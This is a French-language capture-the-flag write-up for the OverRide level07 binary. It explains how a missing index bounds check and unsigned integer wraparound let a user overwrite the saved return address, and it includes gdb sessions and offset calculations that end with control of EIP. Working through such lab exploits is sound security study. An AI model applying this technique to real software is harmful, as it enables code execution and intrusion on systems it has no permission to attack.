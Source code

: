 ## Level07

On observe que le binaire nous permet de stocker un nombre a un certain index, et d'afficher le contenu du tableau pour un index donné.

Lorsque qu'on entre un index qui est divisible par 3, nous obtenons un message d'erreur:

![image](https://user-images.githubusercontent.com/29956389/95601346-9bf4b100-0a53-11eb-8b10-d557af6084f4.png)

Le binaire éfface les argument passé, ainsi que l'environement, mais nous laisse avec une stack executable.

```
while (av[i] != 0)
{
	memset(av[i], 0, strlen(av[i]));
	i++;
}
i = 0;
while (env[i] != 0)
{
	memset(env[i], 0, strlen(env[i]));
	i++;
}
```

Une fois le code désassemblé, on observe que le tableau qui stocke les nombres a 100 index: `char	database[100];`, mais aucune vérification est faite sur l'index que nous donnons, nous pouvons donc en theorie écrire ou nous voulons.

On peut donc stocker notre shellcode directement dans le tableau, et réécrire l'eip pour qu'il pointe sur notre shellcode.

Avec la structure du code, on tente donc de trouver l'eip stocké lors de l'appel a main:

```
level07@OverRide:~$ gdb -q ./level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x8048723
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048723 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c   <--- EIP
```

Maintenant il faut trouver l'adresse du tableau pour en dériver l'index que nous utiliserons pour réécrire l'eip:

Pour cela on peut directement afficher l'adresse `[esp+0x24]` a `main+110`, le problème est que gdb modifie les variables d'environement, ce qui entraine une variation dans les adresses de la stack. On aura donc bien du mal a trouver l'adresse lorsque nous somme pas dans GDB.

La solution ici, est d'utiliser la fonction `read_number` pour trouver la différence relative entre l'adresse effective du tableau, et l'adresse du tableau passé en argument a la fonction `read_number`: Cette différence ne changera pas lors d'ajout ou de retrait de variable d'environement.

Lors de l'appel a `read_number`, le tableau sera stocké a `ebp+0x8`: EBP est le debut de notre stackframe, `ebp+0x4` est l'eip enregistré, et `ebp+0x8` est le tableau logiquement.

```
(gdb) b *read_number+6
(gdb) r
[...]
(gdb) x $ebp+0x8
0xffffd520:     0xffffd544
```

`0xffffd520` est l'adresse pour l'argument de la fonction, et `0xffffd544` est l'adresse réélle du tableau.

```
(gdb) p 0xffffd544 - 0xffffd520
$2 = 36
(gdb) p 36 / 4  <-- 4 parce que tableau de int
$3 = 9
```

On obtiens l'index 9. `9 % 3 == 0` il faut donc contourner cette protection. Si nous prenons `-9`, on fait passer l'unsigned int a 4294956356 soit 0xFFFFD544: notre tableau.

Calculons maintenant l'offset entre le tableau et l'eip enregistré:

```
=> eip at 0xffffd70c
=> database is at 0xffffd544
[...]
(gdb) p 0xffffd70c - 0xffffd544
456
(gdb) p 456 / 4  <--- to int
114
```

L'offset est de 114, vérifions:

```
Breakpoint 1, 0x080486dd in read_number ()
(gdb) c
Continuing.
 Index: 114
 Number at data[114] is 4158936339  <-- eip ?
 Completed read command successfully
(gdb) p/x 4158936339
$10 = 0xf7e45513
(gdb) x 0xf7e45513
0xf7e45513 <__libc_start_main+243>:     0xe8240489
```

Problème: 114 est divisable par 3.

On obseve ceci a la fin de la fonction `store_number`:

```
// index = index << 2; 
// <+149>:   shl    eax,0x2
database[index << 2] = nbr;
```

Ce qui equivaut a multiplier l'index donné par 4, ceci nous permet de faire wrapper l'unsigned int et d'inserer une valeur a l'index 114:

On prend donc `(UINT_MAX / 4) + 114` soit  `4294967296 / 4 + 114` = `1,073,741,938`

Essayons:

```
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
[...]

Input command: store
 Number: 3735928559	(0xdeadbeef)
 Index: 1073741938	(0xffffd70c)
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()	<-- Nice
```




